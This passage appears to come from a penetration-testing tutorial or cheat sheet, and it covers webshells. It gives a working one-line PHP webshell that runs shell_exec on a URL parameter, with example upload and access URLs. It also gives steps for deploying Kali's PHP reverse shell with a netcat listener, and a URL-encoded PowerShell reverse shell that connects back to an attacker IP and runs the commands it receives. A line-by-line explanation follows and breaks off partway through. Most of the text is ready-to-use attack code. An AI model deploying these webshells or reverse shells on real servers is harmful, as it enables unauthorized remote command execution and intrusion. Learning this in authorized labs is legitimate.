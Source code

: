 A **webshell** is a script (e.g., PHP, ASP) running on a webserver that executes commands, often via URL parameters or forms. It’s ideal when you can upload files but can’t directly execute a reverse/bind shell.

### 7.1 Basic PHP Webshell
- **Code**:
  ```php
  <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
  ```
  - **Line-by-Line**:
    - `<?php`: Starts PHP code.
    - `echo "<pre>"`: Outputs a preformatted text block for clean display.
    - `shell_exec($_GET["cmd"])`: Executes the command passed in the `cmd` URL parameter.
    - `. "</pre>"`: Closes the preformatted block.
    - `?>`: Ends PHP code.
- **Usage**:
  - Save as `webshell.php` and upload.
  - Access: `http://target.com/uploads/webshell.php?cmd=whoami`
  - Example: `http://target.com/uploads/webshell.php?cmd=ifconfig`

### 7.2 PHP Reverse Shell
- **Location**: `/usr/share/webshells/php/php-reverse-shell.php` (Kali).
- **Steps**:
  1. Edit the file:
     ```php
     $ip = '10.10.10.5';  // Your IP
     $port = 443;         // Your port
     ```
     - **Line-by-Line**:
       - `$ip = '10.10.10.5'`: Sets the attacker’s IP.
       - `$port = 443`: Sets the port.
  2. Upload to the target.
  3. Set up listener:
     ```bash
     nc -lvnp 443
     ```
     - **Line-by-Line**: See Netcat section.
  4. Access: `http://target.com/uploads/php-reverse-shell.php`.
- **Notes**: Works on Linux webservers, not Windows by default.

### 7.3 Windows Webshell with PowerShell
- **Webshell**: Use the basic PHP webshell.
- **Command** (URL-encoded PowerShell reverse shell):
  ```url
  powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.10.5%27%2C443%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%20%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
  ```
  - **Line-by-Line (decoded)**:
    - `powershell -c`: Runs PowerShell with a command.
    - `$client = New-Object System.Net.Sockets.TCPClient('10.10.10.5',443)`: Creates a TCP client connecting to the attacker.
    - `$stream = $client.GetStream()`: Gets the data stream for communication.
    - `[byte[]]$bytes = 0..65535|%{0}`: Initializes a byte array for reading data.
    - `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)`: Loops while data is received.
    - `$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)`: Converts received bytes to a string.
    - `$sendback = (iex $data 2>&1 | Out-String)`: Executes the command and captures output.